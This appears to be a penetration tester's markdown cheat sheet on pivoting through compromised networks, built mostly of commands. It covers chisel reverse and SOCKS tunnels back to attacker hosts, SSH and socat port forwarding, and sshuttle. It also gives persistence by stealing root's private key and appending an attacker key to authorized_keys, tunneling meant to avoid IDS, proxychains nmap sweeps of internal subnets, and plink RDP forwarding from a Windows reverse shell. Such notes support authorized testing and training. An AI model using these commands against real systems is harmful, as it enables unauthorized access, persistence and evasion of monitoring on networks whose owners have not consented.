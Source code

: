 # Pivoting 

## Readme

https://cheatsheet.haax.fr/network/pivot_techniques/
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

## Note about chisel

chisel performs HTTP tunneling thus aboiding most IDS. Use encryption for better efficiency.

## Persist

It is important to establish persistence before moving forward with actions on objectives.


### simple listener

`nc -lvnpk <PORT>`

this makes a listener that persists even if client disconnects.

### Configuring SSH on Linux

#### private ssh key

1. copy roots private key: copy-paste in vim is enough

`vim root_key`

2. login via ssh using the key

`ssh -i root_key root@VICTIM_IP`

#### inject your own public key into authorized hosts

```bash
cat id_ed25519.pub >> authorized_keys

# root or any other user
ssh -l root VICTIM_IP
```

## Prot forwarding

```bash
# Listen on 443 and forward all incomming connections to local port 1389

socat -v TCP-LISTEN:443,reuseaddr,fork TCP:127.0.0.1:1389
```



##  Proxies

### Forward proxy

some service is listening at victim and connection is incomming from atacker 


### static  forwardin


 <local-interface>:<local-port>:<remote-host>:<remote-port>

which does  port forwarding, sharing server's `<remote-host>:<remote-port>` on clients `<local-interface>:<local-port>`
 
* workflow

Set up new server (this time non socks) on attacker

./chisel server --port 9902

Activate client on victims host

./chisel client 10.10.14.xxx:9902 192.168.1.15:8888:127.0.0.1:443 

So now listener is on 192.168.1.15:8888 which forwards requests to attacker's localhost port 443. Useful to make attacker's external server available from victim within restricted network.

### Reverse proxy

some service is listening at attacker AND connection is incomming from the victim outside firewall



#### static reverse

./chisel server -p 9903 --reverse on local 
./chisel client 10.10.xx.xx:9903 R:127.0.0.1:1280:172.16.xx.xx:80 &

This will open a listener on port 1280 on attackers localhost, and all connections to the target website on 172.16.xx.xx are going to be forwarded via pivot server at 10.10.xx.xx:9903

#### Dynamic reverse proxy

* In this scenario all ports from the victim pivot point aer redirected to attacker so attacker can access Next Victim, which
would be othervise not visible for his network adapter

`./chisel server -p 3333 --reverse --socks5`

* on server


```bash
sudo vim /etc/proxychains4.conf

# socks5 127.0.0.1 1080

./chisel client 172.16.40.5:3333 R:1080:socks

# test

proxychains nmap -F 10.185.10.0/24
```

### Using SSH


#### SSH Local Port Forwarding

* we need to forward packets to target via ssh client's port 4455 over sshserver to target's port 445. where 192.168.11.2 is a pivot point.

`ssh -N -L 0.0.0.0:4455:10.16.223.217:445 root@192.168.11.2`

Attacker can access remote victim port 445 locally on port 4455.

#### SSH Remote Port forwarding

`ssh -N -R 9999:localhost:8080 user@remote`

This command tells SSH to set up a tunnel from the remote machine's port 9999 to your local machine's port 8080. user@remote should be replaced with your actual SSH login credentials and server.

#### SSH Dynamic Port forwarding -> SOCKS

```bash
ssh -D 8080 -f -C -q -N user@yourserver.com
```
-D 8080 sets up the SOCKS proxy on port 8080.

-f asks SSH to go into the background just before command execution.

-C enables compression.

-q enables quiet mode.

-N tells SSH not to execute a remote command.

Then make a socks5 entry in proxy chains for .

##### Multi Hop Scenatio

lets assume: localhost -> 10.11.2.3 -> tor


### Using Socat

#### Forward proxy with socat

`socat -ddd TCP-LISTEN:7777,fork TCP:10.1.11.213:3060`

This line is going to open a listener on 7777 and fork each new connection. New connections are then forwarded to `10.1.11.213:3060`.

This is especially useful if socat is installed on target but not possible to install chisel.

## Configuration for Burp

It can be tricky to use burp with socks but here is a good workaround

1. Setting -> Network -> Connections -> SOCKS proxy 
2. check> Use SOCKS proxy
3. `127.0.0.1 sock_port`
4. in browser selects burps normal proxy `default is 127.0.0.1 8080`
5. no when you browse: attacker -> burp proxy -> socks proxy -> victim
6. Profit!


## scanning with nmap

* run for getting open ports
`seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n`

* remove bad lines and save to log file
`grep '/open/' 10.42.42.2 | uniq > openports.log`

* then scan each port separately

## Transparent VPN over ssh

* setup port forward to ssh server: `socat TCP-LISTEN:2222, fork TCP:10.11.222.3:22`
* use sshuttle (requires root privleges): sets up VPN and tunnels mentioned subnets

```bash

sshuttle -r root@127.0.0.1:2222 10.4.22.0/24 192.168.1.0/24

# now routing is setup on localhost to reach mentioned subnets
```

## SSH On windows with plink

use plink to tunnel once reverse shell on windows is obtained

`plink.exe -ssh -l kali -pw Password -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.203`

## DNS tunneling


